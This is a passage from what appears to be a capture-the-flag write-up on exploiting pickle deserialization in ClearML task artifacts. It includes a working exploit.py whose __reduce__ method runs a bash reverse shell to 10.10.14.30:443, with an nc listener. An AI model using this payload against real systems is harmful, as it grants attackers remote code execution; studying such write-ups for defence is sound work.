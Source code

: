```python
    tasks = Task.get_tasks(project_name='Black Swan', tags=["review"], allow_archived=False)
```

Then, each task is passed to the function process_task:

```python
for task in tasks:
        print(f"[+] Reviewing artifacts from task: {task.name} (ID: {task.id})")
        p = Process(target=process_task, args=(task,))
        p.start()
        threads.append(p)
        task.set_archived(True)
```

Finally, the process_task function uses the get method from the artifact and process it with the function `process_json_artifact` (which is not relevant in this case):

```python
def process_task(task):
    artifacts = task.artifacts
    
    for artifact_name, artifact_object in artifacts.items():
        data = artifact_object.get()
        
        if isinstance(data, dict):
            process_json_artifact(data, artifact_name)
        else:
            print(f"[!] Artifact '{artifact_name}' content is not a dictionary.")
```

The `get` method from the artifact is the one that triggers the pickle deserialization as saw in the research article so I can create a task in the project "Black Swan" with the 'review' tag and execute any command I want on the victim machine.

## Exploitation

I will spawn a `nc` listener and upload an artifact with a command that gives me a reverse shell:

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
```

This will be my exploit.py (from the research page). I modified the project name to be "Black Swan" and specified the 'review' tag because that's what the "Review JSON artifacts" experiment searches for:

```python
import pickle
import os
from clearml import Task

class RunCommand:
    def __reduce__(self):
        return (os.system, ('bash -c "bash -i >& /dev/tcp/10.10.14.30/443 0>&1"',))

command = RunCommand()

task = Task.init(project_name="Black Swan", task_name="pickle_artifact_upload", output_uri=True, tags=['review'])

task.upload_artifact(name='pickle_artifact', artifact_object=command, retries=2, wait_on_upload=True, extension_name='.pkl')
```

It executes correctly:

```bash
❯ python3 exploit.py
```